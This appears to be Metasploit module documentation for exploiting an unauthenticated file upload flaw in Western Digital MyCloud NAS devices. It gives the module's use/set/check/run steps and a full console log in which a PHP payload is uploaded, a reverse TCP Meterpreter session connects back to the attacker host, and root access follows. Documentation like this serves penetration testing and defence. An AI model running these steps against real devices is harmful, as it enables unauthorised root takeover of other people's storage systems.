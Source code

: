 ## Description

This module exploits a file upload vulnerability found in Western Digital's MyCloud NAS web administration HTTP service. The /web/jquery/uploader/multi_uploadify.php PHP script provides multipart upload functionality that is accessible without authentication and can be used to place a file anywhere on the device's file system. This allows an attacker the ability to upload a PHP shell onto the device and obtain arbitrary code execution as root.

## Vulnerable Application
	
  [Western Digital](https://www.wdc.com/) designs drives and network attached storage (NAS) devices for both consumers and businesses.

  This module was tested successfully on a MyCloud PR4100 with firmware version 2.30.172 .

## Verification Steps

1. Do: ```use exploit/linux/http/wd_mycloud_multiupload_upload```
2. Do: ```set RHOST [IP]```
3. Do: ```check```
4. It should be reported as vulnerable
5. Do: ```run```
6. You should get a shell

## Scenarios

```
msf > use exploit/linux/http/wd_mycloud_multiupload_upload
msf exploit(wd_mycloud_multiupload_upload) > set RHOST 192.168.86.104
RHOST => 192.168.86.104
msf exploit(wd_mycloud_multiupload_upload) > check
[+] 192.168.86.104:80 The target is vulnerable.
msf exploit(wd_mycloud_multiupload_upload) > run

[*] Started reverse TCP handler on 192.168.86.215:4444 
[*] Uploading PHP payload (1124 bytes) to '/var/www'.
[+] Uploaded PHP payload successfully.
[*] Making request for '/.7bc5NqFMK5.php' to execute payload.
[*] Sending stage (37543 bytes) to 192.168.86.104
[*] Meterpreter session 1 opened (192.168.86.215:4444 -> 192.168.86.104:38086) at 2017-11-28 06:07:14 -0600
[+] Deleted .7bc5NqFMK5.php

meterpreter > getuid
Server username: root (0)
```
